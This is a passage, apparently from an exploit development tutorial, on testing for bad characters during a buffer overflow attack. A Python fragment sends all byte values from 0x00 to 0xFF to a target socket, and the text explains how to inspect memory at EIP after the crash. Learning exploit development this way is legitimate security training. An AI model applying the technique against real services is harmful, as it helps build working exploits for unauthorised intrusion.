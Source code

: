 ```python

# bad character testing payload
buf += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# send payload
sock.send(buf)
sock.close()
```

...test the exploit against the target and investigate the memory dump of the memory location pointed to by the EIP after the crash:

![Testing for bad characters. A string of characters from 0x00-0xFF as a payload](../../../.gitbook/assets/image%20%28825%29.png)
